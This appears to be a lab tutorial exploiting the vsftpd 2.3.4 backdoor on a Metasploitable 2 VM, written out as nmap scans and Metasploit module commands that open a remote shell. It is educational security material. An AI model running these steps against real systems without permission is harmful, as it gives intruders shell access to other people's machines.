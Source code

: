 ### **🚀 Exploiting vsftpd 2.3.4 on Metasploitable 2 using Metasploit**  

In this post, I’ll show how to **find, analyze, and exploit a vulnerability in vsftpd 2.3.4** (an old FTP server with a backdoor) using **Kali Linux** and **Metasploitable 2**. Let's get started!  

---

### **🔍 Step 1: Find the Target’s IP**
First, we need to identify the IP address of our **Metasploitable 2** machine. Run:  

```bash
ip a  # On Linux
ifconfig  # Alternative command
```
On **Kali**, use:  
```bash
nmap -sn 192.168.93.0/24
```
This will **list all devices** on the network, helping us locate Metasploitable 2 (e.g., **192.168.93.129**).  

---

### **🔎 Step 2: Scan for Open Ports**
Once we have the target's IP, let’s **scan for open services**:  

```bash
nmap -sV -p- 192.168.93.129
```
🔹 `-sV`: Detects service versions  
🔹 `-p-`: Scans **all** 65,535 ports  

🚀 **Result:**  
Port **21 (FTP)** is open, running **vsftpd 2.3.4**, which is known to have a **backdoor**.  

---

### **📌 Step 3: Exploit vsftpd 2.3.4**
Now, we use **Metasploit** to exploit the vulnerable service:  

```bash
msfconsole
```
Select the exploit:  

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```
Check the required options:  

```bash
show options
```
Set the **target IP (RHOSTS)** and the **target port (RPORT)**:  

```bash
set RHOSTS 192.168.93.129
set RPORT 21
```
Run the exploit:  

```bash
exploit
```
If successful, this gives us a **remote shell** on the target! 🎯  

---

### **🖥️ Step 4: What Can We Do With the Shell?**
Now that we have access, we can:  
✔️ List files: `ls`  
✔️ Check users: `whoami`  
✔️ Read system info: `uname -a`  

This is a basic **proof of concept (PoC)** of how an attacker can exploit outdated services.  

---

### **⚠️ Ethical Hacking Reminder**
🔹 This tutorial is **for educational purposes only**.  
🔹 Always have **explicit permission** before testing security.  
🔹 Keep your systems **updated** to avoid these vulnerabilities.  

---

### **📚 More Resources**
🔗 Metasploitable 2: [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)  
🔗 Metasploit Docs: [https://docs.metasploit.com/](https://docs.metasploit.com/)  
🔗 Nmap: [https://nmap.org/](https://nmap.org/)  

Would you like to see more tutorials like this? Let me know in the comments! 🚀🔍 #CyberSecurity #EthicalHacking #Metasploit #PenTesting  